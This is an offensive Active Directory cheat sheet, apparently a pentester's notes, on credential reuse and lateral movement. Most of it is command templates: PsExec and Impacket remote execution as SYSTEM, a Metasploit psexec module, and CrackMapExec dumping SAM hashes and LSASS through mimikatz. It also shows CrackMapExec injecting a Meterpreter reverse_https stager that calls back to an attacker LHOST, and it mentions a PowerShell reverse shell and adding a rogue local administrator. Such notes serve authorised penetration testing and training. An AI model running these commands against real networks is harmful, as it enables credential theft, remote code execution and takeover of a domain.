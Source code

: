 # Active Directory - Credentials Theft Shuffle

### User hunting

###### Session hunting with BloodHound

BloodHound uses graph theory to reveal the hidden and often unintended
relationships within an Active Directory environment. Attackers can use
BloodHound to easily identify highly complex attack paths that would otherwise
be impossible to quickly identify.

### Identify local admin access for obtained credentials

### Credentials reuse

The credentials used for authentication and command execution through SMB must
have elevated privileges on the targeted client machine.

To quickly identity which servers or computers in the domain expose a SMB
service (usually all Windows hosts), AD queries and nmap can be used in
combination (refer to the Methodology - Domain Recon note).

###### Locally use credentials

Set the main DNS server on the attacking computer to the Domain Controller IP
address:

```
Control Panel -> Network and Internet -> Network and Sharing Center -> Change adapter setting -> right click on the adapter being used -> Properties -> Internet Protocol Version 4 (TCP/IPv4) -> Properties -> Set the Preferred DNS server field  
```

To authenticate locally as another user (with plaintext credentials) and
execute Powershell commands the following commands can be used.

```
# runas
# Use /NetOnly on off-domain machines
runas /NetOnly /user:<DOMAIN>\<USERNAME> powershell.exe

# For the commands supporting PSCredential
$secpasswd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("<DOMAIN>\<USERNAME>", $secpasswd)
```

The `NetOnly` runas option will make runas execute on your local computer as the
currently logged on user, but any connections to other computers on the network
will be made using the user account specified.

###### PsExec

The PsExec CLI utility, signed by Microsoft and from the sysinternals suite,
can be used to execute commands, locally or remotely and under the current
user or the specified user identity.  

While the use of a more complete attack framework is recommended on the
attacking machine (such as CrackMapExec), PsExec can be upload on a compromised
host to hops on until now unreachable targets.

PsExec uses a named pipe with the Server Message Block (SMB) protocol, which
runs on TCP port 445. The PsExec tool requires that the executable be present
on the system performing the connection, but no additional software is
necessary on the target. Additionally, the credentials supplied to PsExec for
authentication must have elevated privileges on the targeted client machine.

```
# -s   Run the remote process in the System account.
# -i   Run the program so that it interacts with the desktop of the specified session on the remote system
# -d   Don't wait for process to terminate (non-interactive).

psexec [\\computer[,computer2[,...] | @file]] [-u user [-p psswd]] [-n s] [-r servicename] [-h] [-l] [-s|-e] [-x] [-i [session]] [-c [-f|-v]] [-w directory] [-d] [-<priority>][-a n,n,...] cmd [arguments]

# Current user identity
# Use the -s option to run as SYSTEM if needed
psexec.exe -accepteula \\<HOST | IP> -s -i -d cmd.exe
psexec.exe -accepteula \\<HOST | IP> -u <DOMAIN | WORKGROUP>\<USERNAME> -p <PASSWORD> -s -i -d cmd.exe
psexec.exe -accepteula \\<HOST | IP> -s -i -d cmd.exe /c <COMMAND> <COMMAND_ARGS>
```

###### Metasploit PsExec

The Metasploit module *exploit/windows/smb/psexec* can be used to execute a
metasploit payload on a target.

This module uses a valid administrator username and password or password hash to
execute an arbitrary payload, similarly to the PsExec utility provided by
SysInternals.

```
# If using a password hash, set SMBPass to <LM_HASH:NT_HASH>
msf> use exploit/windows/smb/psexec
```

###### Impacket psexec.py

The python script `psexec.py` from the scripts collection `Impacket` can be used
as a substitute to the SysInternals or Metasploit psexec tools.

Usage:

```
# The --target-ip specify the IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is an unresolvable NetBIOS name.
# The command default to
psexec.py [-hashes <LM_HASH:NT_HASH>] [-dc-ip <DC_IP>] [-target-ip <TARGET_IP>] [-port [<PORT>]] [[<DOMAIN>/]<USERNAME>[:<PASSWORD>]@]<HOSTNAME | IP> [<COMMAND> [<COMMAND> ...]]
```

Contrary to the two previous tools, the python Impacket psexec.py can be easily
incorporated in scripts:

```
import psexec

psobject = psexec.PSEXEC("cmd.exe", "c:\\windows\\system32\\", None, "445/SMB", username = '<USERNAME>', password = '<PASSWORD>')
raw_result = psobject.run("<HOSTNAME | IP>")
print raw_result
psobject.kill();
```

###### CrackMapExec

CrackMapExec is a "Swiss army knife for pentesting Windows/Active Directory
environments".  

CME can notably be used to test credentials (password or hashes) through SMB or
MSSQL for local administrator access on a large range of targets.

CME has three different command execution methods and, by default will fail over
to a different execution method if one fails. It attempts to execute commands
in the following order:
  1. `wmiexec` executes commands via WMI
  2. `atexec` executes commands by scheduling a task with windows task scheduler
  3. `smbexec` executes commands by creating and running a service

As with PsExec, the credentials supplied for authentication must have elevated
privileges on the targeted system.

CME include multiples modules:

```
crackmapexec --list-modules

[*] empire_exec          Uses Empire's RESTful API to generate a launcher for the specified listener and executes it
[*] mimikittenz          Executes Mimikittenz
[*] rundll32_exec        Executes a command using rundll32 and Windows's native javascript interpreter
[*] com_exec             Executes a command using a COM scriptlet to bypass whitelisting
[*] tokenrider           Allows for automatic token enumeration, impersonation and mass lateral spread using privileges instead of dumped credentials
[*] tokens               Enumerates available tokens using Powersploit's Invoke-TokenManipulation
[*] mimikatz             Executes PowerSploit's Invoke-Mimikatz.ps1 script
[*] powerview            Wrapper for PowerView's functions
[*] shellinject          Downloads the specified raw shellcode and injects it into memory using PowerSploit's Invoke-Shellcode.ps1 script
[*] enum_chrome          Uses Powersploit's Invoke-Mimikatz.ps1 script to decrypt saved Chrome passwords
[*] metinject            Downloads the Meterpreter stager and injects it into memory using PowerSploit's Invoke-Shellcode.ps1 script
[*] peinject             Downloads the specified DLL/EXE and injects it into memory using PowerSploit's Invoke-ReflectivePEInjection.ps1 script
[*] eventvwr_bypass      Executes a command using the eventvwr.exe fileless UAC bypass
```

CME cheat sheet:

```
# As of December 2018, no output to file file.
# Use | tee <OUTPUT_FILE> to display standard output and stored result to a file

# TARGETS can be IP(s), range(s), CIDR(s), hostname(s), FQDN(s) or file(s) containg a list of targets

crackmapexec <TARGETS> [-M <MODULE> [-o <MODULE_OPTION>]] (-d <DOMAIN> | --local-auth) -u <USERNAME | USERNAMES_FILE> (-p <PASSWORD | PASSWORDS_FILE> | -H <HASH>) [--sam] [-x <COMMAND> | -X <PS_COMMAND>]

# SAM
crackmapexec <TARGETS> --sam (-d <DOMAIN> | --local-auth) -u <USERNAME> (-p <PASSWORD | PASSWORDS_FILE> | -H <HASH>)

# LSASS dump
crackmapexec <TARGETS> -M mimikatz (-d <DOMAIN> | --local-auth) -u <USERNAME> (-p <PASSWORD | PASSWORDS_FILE> | -H <HASH>)

# Meterpreter
# msf > use multi/handler
# msf exploit(handler) > set payload windows/meterpreter/reverse_https
crackmapexec <TARGETS> -M metinject -o LHOST=<HOST> LPORT=<PORT> -d <DOMAIN> -u <USERNAME> (-p <PASSWORD | PASSWORDS_FILE> | -H <HASH>)
```

Note that:

  - the *--lsa* option dumps LSA secrets which can't be used in PtH attack and
    are harder to crack
  - The <TARGETS\> and <MODULE\> should be specified before the credentials as
    a CME bug could skip the targets / module otherwise
  - If the targeted host is unreachable, CME will exit with out returning any
    error message
  - In case the metinject fails, a local administrator can be added for RDP
    access or a powershell reverse shell injected in memory (Refer to the `[General] Shells - PowerShell` note)   

### Credentials dumping

Credential dumping is the process of obtaining account login and password
information, normally in the form of a hash or a clear text password, from
the operating system.

To dump credentials on a Windows host, refer to the [Windows] Post Exploit note.
